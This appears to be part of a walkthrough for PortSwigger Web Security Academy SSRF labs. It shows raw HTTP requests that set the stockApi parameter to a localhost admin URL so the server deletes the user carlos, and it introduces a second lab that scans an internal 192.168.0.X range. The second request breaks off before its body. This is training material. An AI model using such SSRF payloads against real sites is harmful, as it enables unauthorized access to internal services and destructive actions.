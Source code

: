 ```
...
<div>
<span>carlos - </span>
<a href="/admin/delete?username=carlos">Delete</a>
</div>
...
```


```

POST /product/stock HTTP/1.1
Host: 0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net
Cookie: session=SQEfYWjhobfDGJYOf1aEhPh7fyxhAeWY
Content-Length: 60
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aef00a0047ce0a8c2f5704e00f10006.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http%3a%2f%2flocalhost/admin/delete?username=carlos

```


## Lab: Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 


```

POST /product/stock HTTP/1.1
Host: 0a0c001f03a490dfc01295e700430086.web-security-academy.net
Cookie: session=v3JgTz6xCD4gKIzVbTQ7jCJQsrouiP9g
Content-Length: 96
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a0c001f03a490dfc01295e700430086.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0c001f03a490dfc01295e700430086.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```